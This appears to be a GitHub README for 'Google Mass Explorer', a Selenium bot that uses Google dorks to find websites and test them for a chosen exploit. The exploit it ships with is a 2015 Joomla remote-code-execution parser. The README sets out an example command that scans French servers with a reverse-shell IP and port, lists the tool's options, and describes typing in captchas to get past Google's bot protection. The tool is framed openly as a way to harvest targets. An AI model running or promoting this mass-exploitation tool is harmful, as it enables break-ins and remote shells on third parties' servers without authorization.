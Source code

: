 **[+] Google Mass Explorer**

This is a automated robot for google search engine.

Make a google search, and parse the results for a especific exploit you define.
The options can be listed with --help parameter.


**Intro:**

This project is a main project that i will keep upgrading when new exploits are published. They idea is use google search engine to find vulnerable targets, for specific exploits. The exploits parsers will be concentrated in google_parsers module. So when you make a search, you can choose explicit in "--exploit parser" argument, a especific exploit to the robot test if is the targets are vulnerable for that or not.

** !!! Is very important you use the right dork for the specific exploit.

The google parsers module (google_parsers.py) is the file that i will keep upgrading. For this version i'm putting just the joomla cve exploit. I have a wordpress bot too, but the ideia is you make your own parsers =))) If you have difficul to make, just send me the exploit and we make together =))

I make this google explorer because i'm very busy, and take to much time to search for targets in google manually. So I use a automated framework (Selenium) to make a robot to search for targets for me ;)) The problem using other libs and modules, is the captcha from google, and using Selenium, you can type the captcha when it is displayed, and the robots keeps crawling with no problem =)) This was the only way i find out to "bypass" this kind of protection... After it work, i decide to publish to everyone.

**How the robot works:**

1 - Make a google search

2 - Parse the from each page results

3 - Test if each target is vulnerable for a specific exploit.

**Requiriments:**

-----> !!!!!! PYTHON 3  !!!!!! <------ THIS PROJECT IS ONLY FOR PYTHON 3 !!!!

The requirements is in requirements.txt file, you should install what is listed on it with: 

$ sudo pip install -R requirements.txt

These are some exemples that you can use, and make your own:

python3 google_explorer.py --dork="site:*.com inurl:index.php?option=" --browser="chrome" --exploit_parser="joomla_15_12_2015_rce" --revshell="MY_PUBLIC_IP" --port=4444 --google_domain="google.com" --location="França" --last_update="no último mês"

On this exemple, im looking for servers in France, vulnerables to joomla RCE, using google.com domain as google search (they are listed in google_doomais.txt file), with last update on last month.

All these options are possible to any language, it will depends only in what google use for syntax for your country..

I have some old videos on my channel on youtube showing how it works, so take a look at the description of the olders projects in github if you need some video exemples ;))


These are the current options for this project:

Usage:

    google_explorer.py --dork=<arg> --browser=<arg> [--exploit_parser=<arg>] [--language=<arg>]
                                                    [--location=<arg>]       [--last_update=<arg>]
                                                    [--revshell=<arg>]       [--port=<arg>]
                                                    [--google_domain=<arg>]

    google_explorer.py --help
    google_explorer.py --version

Options:

    -h --help                                Open help menu
    -v --version                             Show version

Required options:

    --dork='google dork'                     your favorite g00gle dork :)
    --browser='browser'                      chrome
                                             chromium


Optional options:

    --language='page language'               Portuguese
                                             English
                                             Arabic
                                             Romanian
                                             ...
                                             ...
    
    --location='server location'             Brazil
                                             Mauritania
                                             Tunisia
                                             Marroco
                                             Japan
                                             ...
                                             ...
    
    --last_update='page last update'         anytime
                                             past 24 hours
                                             past week
                                             past month
                                             past year

    --exploit_parser='Name or CVE exploit'   joomla_15_12_2015_rce
                                             generic_parser

    --revshell='IP'                          public ip for reverse shell
    --port='PORT'                            port for back connect

    --google_domain='google domain'          google domain to use on search. Ex: google.co.uk







